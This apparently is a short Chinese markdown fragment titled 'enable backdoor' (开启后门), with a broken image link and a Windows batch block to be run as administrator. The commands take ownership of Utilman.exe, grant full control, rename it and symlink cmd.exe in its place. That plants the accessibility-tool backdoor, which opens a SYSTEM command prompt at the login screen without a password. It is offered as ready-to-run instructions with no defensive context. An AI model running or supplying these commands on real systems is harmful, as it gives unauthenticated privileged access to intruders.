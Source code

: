 **开启后门** 以管理员身份执行以下命令
```bat
cd C:\windows\system32

takeown /f Utilman.exe /A

icacls Utilman.exe /grant administrators:F

rename Utilman.exe Utilman_bak.exe

mklink Utilman.exe cmd.exe
```